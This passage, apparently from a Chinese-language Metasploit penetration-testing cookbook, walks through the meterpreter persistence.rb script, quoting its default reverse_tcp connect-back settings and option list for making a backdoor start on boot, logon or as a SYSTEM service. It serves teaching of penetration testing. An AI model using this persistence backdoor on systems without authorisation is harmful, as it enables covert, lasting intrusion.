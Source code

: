 让我们扩展我们的讨论，以便更快更有效地进行渗透测试。

### 代码重用

代码重用可以是构建自己脚本的有效技术。您可以找到一些现成的函数，例如创建多处理程序、设置参数检查、添加有效载荷。您可以直接在您的代码中使用它们并利用其功能。请记住，学习 meterpreter 脚本的最佳方法是查看内置脚本。

# 分析现有的 meterpreter 脚本

现在我们已经学会了如何构建自己的脚本，让我们继续分析执行一些高级任务的现有脚本。一旦您能完全阅读现有脚本，您就可以根据需要从中实现函数。代码重用是增加代码优化的有效技术。

## 如何做到这一点...

要查看现有脚本，请浏览到`pentest/exploits/framework3/scripts/meterpreter`。

您可以在此文件夹中找到所有可用的 meterpreter 脚本。我们将分析`persistence.rb`脚本，该脚本有助于在目标用户上设置后门。我们在上一章中已经讨论了此脚本的用法。在这里，我们将深入了解此脚本的功能。

## 它是如何工作的...

让我们逐一分析代码的每个部分。

```
# Default parameters for payload
rhost = Rex::Socket.source_address("1.2.3.4")
rport = 4444
delay = 5
install = false
autoconn = false
serv = false
altexe = nil
target_dir = nil
payload_type = "windows/meterpreter/reverse_tcp"
script = nil
script_on_target = nil 
```

代码从声明在脚本中使用的变量开始。您可以看到一些常见变量，例如`rhost、rport、payload_type`，我们在整个利用过程中一直在使用。

```
@exec_opts = Rex::Parser::Arguments.new(
"-h" => [ false, "This help menu"],
"-r" => [ true, "The IP of the system running Metasploit listening for the connect back"],
"-p" => [ true, "The port on the remote host where Metasploit is listening"],
"-i" => [ true, "The interval in seconds between each connection attempt"],
"-i" => [ true, "The interval in seconds between each connection attempt"],
"-X" => [ false, "Automatically start the agent when the system boots"],
"-U" => [ false, "Automatically start the agent when the User logs on"],
"-S" => [ false, "Automatically start the agent on boot as a service (with SYSTEM privileges)"],
"-A" => [ false, "Automatically start a matching multi/handler to connect to the agent"],
"-L" => [ true, "Location in target host where to write payload to, if none \%TEMP\% will be used."],
"-T" => [ true, "Alternate executable template to use"],
"-P" => [ true, "Payload to use, default is windows/meterpreter/reverse_tcp."]
)
meter_type = client.platform 
```
